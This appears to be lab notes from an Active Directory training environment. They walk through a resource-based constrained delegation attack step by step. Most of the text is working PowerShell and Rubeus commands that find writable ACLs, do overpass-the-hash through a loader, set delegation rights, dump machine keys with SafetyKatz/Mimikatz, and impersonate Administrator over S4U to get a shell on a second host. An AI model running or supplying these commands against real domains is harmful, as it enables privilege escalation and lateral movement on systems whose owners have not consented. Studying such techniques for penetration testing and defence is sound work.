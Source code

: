 **Local admin privileges to the foothold/attacker machine are required due to the need of a machine hash**

Find that a compromised user has `Write` permissions over a machine (PowerView) 
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

We see that `ciadmin` has `GenericWrite` over `dcorp-mgmt`

Shell as user with `Write` permissions - `ciadmin` - OPtH
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:ciadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As `ciadmin`, add your foothold machine that you have local admin privileges to  the`PrincipalsAllowedToDelegateToAccount` (PowerView + AD Module)
```powershell
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student548$' -Verbose

$comps = 'dcorp-student548$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Confirm RBCD configuration
```powershell
Get-DomainRBCD
```

Obtain foothold/attacker machine machine hash (`dcorp-student548$`) - SID `S-1-5-18`
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"

Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Obtain ticket as machine account (`dcorp-student548$`) to access "second hop machine" (`dcorp-mgmt`)  as **ANY** user in the domain.
```powershell
Rubeus.exe s4u /user:dcorp-student548$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:Administrator /ptt
```

```powershell
winrs -r:dcorp-mgmt cmd.exe
```